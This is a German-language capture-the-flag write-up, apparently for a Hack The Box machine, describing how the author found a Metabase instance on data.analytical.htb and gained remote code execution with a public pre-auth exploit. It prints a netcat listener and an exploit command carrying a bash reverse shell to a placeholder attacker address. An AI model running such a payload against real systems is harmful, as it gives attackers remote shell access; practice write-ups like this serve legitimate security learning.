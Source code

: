 
Nachdem ich erfolgreich auf `analytical.htb` zugegriffen hatte, stieß ich auf einen Login-Button, der mich auf eine Anmeldeseite weiterleitete. Diese befand sich auf der Subdomain `data.analytical.htb`. Hier begann die eigentliche Herausforderung. Um auch hier Zugriff zu erhalten, musste ich erneut die `/etc/hosts`-Datei anpassen:

```shell
sudo su
echo "IP_ADRESS    analytical.htb" >> /etc/hosts
```


## Schritt 4: Entdeckung von Schwachstellen und Exploitation

Eine detaillierte Analyse der Webanwendung offenbarte, dass sie Metabase nutzt. Nach einer kurzen Recherche auf GitHub stellte sich heraus, dass Metabase einige Sicherheitslücken aufweist, einschließlich einer potenziellen `Remote Code Execution`-Schwachstelle. Insbesondere wurde auf der GitHub-Seite [https://github.com/m3m0o/metabase-pre-auth-rce-poc](https://github.com/m3m0o/metabase-pre-auth-rce-poc) ein passender Exploit gefunden.

Um diesen Exploit auszuführen, benötigte ich einen `setup-token`, der auf der Webseite im Verzeichnis `/api/setup/validate` zu finden war. Der folgende Link [https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/) enthielt weitere Informationen dazu.

Nach dem Herunterladen des GitHub-Repositories führte ich die folgenden Befehle aus, um die Remote Code Execution zu erreichen:


```shell
nc -nvlp 8888
```

```shell
python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/MY_IP_ADRESS/8888 0>&1"
```

<img src="../Screenshots/Screenshot_Analytics_3.png" width=800>



## Schritt 5 Privilege Escalation
